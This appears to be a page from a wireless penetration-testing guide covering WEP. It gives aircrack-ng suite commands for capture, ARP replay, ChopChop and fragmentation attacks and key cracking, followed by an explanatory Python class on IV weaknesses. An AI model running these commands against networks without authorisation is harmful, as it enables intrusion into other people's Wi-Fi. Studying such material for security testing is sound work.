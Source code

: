 ### WEP Attacks

#### WEP Key Cracking
```bash
# Capture WEP traffic
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_capture wlan0mon

# Generate traffic (ARP replay)
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon

# Crack WEP key
aircrack-ng wep_capture-01.cap

# Alternative: ChopChop attack
aireplay-ng -4 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon

# Fragmentation attack
aireplay-ng -5 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon
```

#### WEP Vulnerabilities Explained
```python
#!/usr/bin/env python3
"""
WEP Vulnerability Analysis
Demonstrates why WEP is easily breakable
"""

class WEPAnalysis:
    def __init__(self):
        self.iv_size = 24  # bits
        self.total_ivs = 2**24  # 16,777,216 possible IVs
        
    def calculate_collision_probability(self, packets):
        """Calculate IV collision probability"""
        # Birthday paradox application
        probability = 1.0
        for i in range(packets):
            probability *= (self.total_ivs - i) / self.total_ivs
            if probability < 0.5:
                return i
        return packets
    
    def weak_iv_analysis(self):
        """Analyze weak IV patterns"""
        weak_patterns = [
            "FD:00:XX",  # Weak IV pattern 1
            "FE:00:XX",  # Weak IV pattern 2  
            "FF:00:XX",  # Weak IV pattern 3
        ]
        
        print("WEP Weak IV Patterns:")
        for pattern in weak_patterns:
            print(f"- {pattern}")
    
    def key_recovery_estimate(self, data_rate_mbps=11):
        """Estimate time to recover WEP key"""
        packets_needed = 50000  # Approximate packets for 40-bit WEP
        packet_size = 1500  # bytes
        
        time_minutes = (packets_needed * packet_size * 8) / (data_rate_mbps * 1000000 * 60)
        
        print(f"Estimated time to crack WEP: {time_minutes:.2f} minutes")
        print(f"Packets needed: {packets_needed}")
```